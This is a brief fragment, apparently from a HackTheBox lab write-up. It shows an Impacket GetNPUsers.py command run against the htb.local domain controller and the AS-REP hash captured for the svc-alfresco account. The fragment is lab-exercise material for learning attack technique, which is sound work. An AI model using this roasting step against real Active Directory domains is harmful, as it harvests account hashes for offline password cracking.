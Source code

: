 KRoasting:

./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request

$krb5asrep$23$svc-alfresco@HTB.LOCAL:ec4d096609a114fdd785e8801296118b$d4d812103974b1956e271eba42443d7c7a730d8b8d51a3c9f95e2c689f7cf8d14d2852e56bc450307450b6dc0a81bfd3b7aa12daf6e8272d4075326873068f5c5fedca2fb306364a47ce9419ca852b76d47acb4712d5adaa236bab4e868f306f5cbd35fc78af74708623c68374aefc3ba120217173f91f9eb352fff0ebec23d99a6d479a061eddd60a326e9e3ea68dac62f62314944ef34ee61f31cbf49c02fc1268312aee4e65baa231bdf33d353e7c6f221ce8e7e89a53158f5a8b2672a717231ee3f5040f2bd58dfba3b92132f9d5c331c921978b8b6375673b40ba2456737e8c7e16ed5c
